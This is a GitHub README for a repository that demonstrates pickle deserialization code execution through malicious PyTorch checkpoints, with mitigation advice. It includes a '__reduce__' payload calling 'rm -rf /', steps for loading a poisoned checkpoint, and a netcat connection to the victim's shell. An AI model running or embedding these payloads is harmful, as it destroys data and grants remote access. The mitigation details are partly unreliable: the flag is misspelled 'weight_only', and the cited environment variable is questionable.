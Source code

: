 # Pickle Remote Code Execution (RCE) Vulnerability

This repository demonstrates a security vulnerability in Python's `pickle` module that can lead to remote code execution (RCE). The `pickle` module is used for serializing and deserializing Python objects, but it can execute arbitrary code during deserialization, making it dangerous to use with untrusted data.

## Repository Structure

- `gen_clean_ckpt.py`: Script to generate a clean checkpoint.
- `gen_payload_ckpy.py`: Script to generate a payload checkpoint.
- `payload_example.py`: Example script demonstrating the pickle RCE vulnerability.
- `README.md`: This file.

## Setup

```bash
pip install torch
python gen_clean_ckpt.py
python gen_payload_ckpy.py model_checkpoint.pth
```

Now victim loads the checkpoint using `torch.load`:

```python
torch.load('malicious_checkpoint.pth')
```

Attcker can now connect to the victim's machine using netcat:

```bash
nc localhost 4444 # replace localhost with the victim's IP
```

## Understanding the Vulnerability

The `payload_example.py` script demonstrates how an attacker can exploit the pickle RCE vulnerability. Here's a breakdown of the script:

The attack works by the unpickling or deserializing of python object classes.

As certain class objects might not be easy to serialize and stored by pickle,
such as file objects, sockets, etc. The `__reduce__` method is used to define
how the object should be constructed while unpickling/deserializing.

i.e. arbitrary code execution can be achieved by defining a class with a `__reduce__` method that executes the desired code.

```python
import pickle
import os

class MaliciousPickle:
    def __reduce__(self):
        return (os.system, ('rm -rf /',)) # 😏💣

payload = pickle.dumps(MaliciousPickle())
pickle.loads(payload) # This will execute the payload and the attacker gains control... 
# I MEAN NUKE YOUR WHOLE FILE SYSTEM... DO NOT ACTUALLY EXECUTE THIS EXAMPLE
```

## Mitigations

***Never unpickle untrusted data***. The `pickle` module is not secure against erroneous or maliciously constructed data. It is recommended to use safer alternatives like JSON, XML, or YAML for data serialization and deserialization.

### ML specific mitigations

Always use `torch.load` with the `weight_only=True` flag to load model weights only. This ensures that the model architecture is not loaded from the checkpoint, preventing the execution of arbitrary code.

Or just set the environment variable `TORCH_LOAD_DISABLE_PICKLE` to `1` to disable the use of unsafe pickle in `torch.load`.

Lastly, just switch to using **safetensor** for model checkpoints.

An instance of the vulnerability which documents how untrusted pickle data can lead to remote code execution (RCE). For more details, refer to the official CVE entry:
[CVE-2024-3568](https://nvd.nist.gov/vuln/detail/CVE-2024-3568)
